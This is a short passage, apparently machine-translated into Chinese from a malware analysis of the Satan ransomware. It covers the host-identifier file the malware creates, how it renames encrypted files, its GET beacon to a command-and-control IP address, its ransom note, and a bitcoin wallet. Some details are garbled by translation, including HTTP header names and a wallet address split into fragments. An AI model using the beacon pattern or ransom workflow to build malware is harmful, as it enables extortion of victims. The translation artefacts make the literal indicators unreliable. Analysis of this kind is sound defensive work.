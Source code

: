 Satan.exe 在“C:\Windows\Temp\KSession”中创建了一个名为 KSession 的文件，并在其中存储了一个主机标识符。

加密文件用【satan_pro@mail.ru】重命名。<original_filename>。撒旦文件名。然后，该进程开始向命令和控制服务器发送数据，使用 KSession 文件中存储的参数值发出 GET 请求。</original_filename>

GET /data/token.php？status = ST & code = xxxxxxxxxxxxxxxxxxxxxxxxxxxx HTTP/1.1 连接:保持活动状态

用户代理:Winnet 客户端

主持人:45.124.132.119

加密后，Satan.exe 在 C:\_How_to_decrypt_files.txt 中创建一个带有说明的便笺，然后执行记事本打开该便笺。

![](img/be5137cbd5c35f574cd6106a7799ada4.png)

该说明包含系统解密说明和联系电子邮件地址:satan_pro@mail[。]ru，请求比特币付款，如下面的笔记示例所示:

![](img/20ed7a96f1d11fd9765eacc6a870ab02.png)

追踪之前提到的比特币钱包:

14 hck 6 irxwrkmbfrk G8 kisppckmqth 2 qo，至今只收到极少数款项，最近一次付款是在 2018 年 5 月 12 日。在撰写本文时，它的余额为 0.5 BTC，价值约为 3600 美元。
